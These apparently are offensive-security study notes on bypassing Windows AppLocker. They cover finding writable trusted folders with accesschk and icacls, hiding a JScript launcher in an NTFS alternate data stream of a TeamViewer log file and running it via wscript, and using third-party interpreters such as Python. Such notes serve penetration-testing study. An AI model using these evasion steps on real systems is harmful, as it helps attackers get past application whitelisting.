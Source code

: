 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Alternate_Data_Streams
---
```



<span style="font-size: 35px; color:red"><b>Trusted Folders, Alternate Data Streams and Third Party Executables</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Trusted Folders</b></span>

The default rules for AppLocker whitelist all executables and scripts located in <span style="color:red">C:\Program Files</span>,<span style="color:red">C:\Program Files (x86)</span>, and <span style="color:red">C:\Windows</span> (non-admin users cannot write executables or scripts into these directories.).

To locate user1 <span style="color:red">Writable</span> folders in <span style="color:red">C:\Windows</span>, use accesschk.exe from Sysinternals:
```shell
accesschk.exe "user1" C:\Windwos -wus
```
(<span style="color:red">-w</span> to locate writable directories, <span style="color:red">-u</span> to suppress any errors and <span style="color:red">-s</span> to recurse through all subdirectories)

To locate user1 <span style="color:red">Executable</span> folders, use the native <span style="color:red">icacls</span>:
```shell
icacls.exe C:\Windwos\Tasks
```
RX means that any user on the system will have both read and execute permissions within the directory.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Alternate Data Stream</b></span>

The modern Windows file system is based on the <span style="color:red">NTFS</span> specification, which represents all files as a stream of data and supports multiple streams.
An <span style="color:red">Alternate Data Stream</span> (_ADS_) is a binary file attribute that contains metadata.
We can leverage this to append the binary data of additional streams to the original file.

I.E.
```js
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
```
Save this code to a file <span style="color:red">test.js</span>. Print it to another writable and executable file's data stream like so:

```shell
type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```

Execute it then with <span style="color:red">wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"</span>
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Third Party Executable</b></span>

Applocker only enforces rules against default native Windows executables.
A third party scripting engine like Python, Java or Perl won't be detected.

I.E.
```shell
echo print("This executed") > test.py
```

```python
python test.py
```
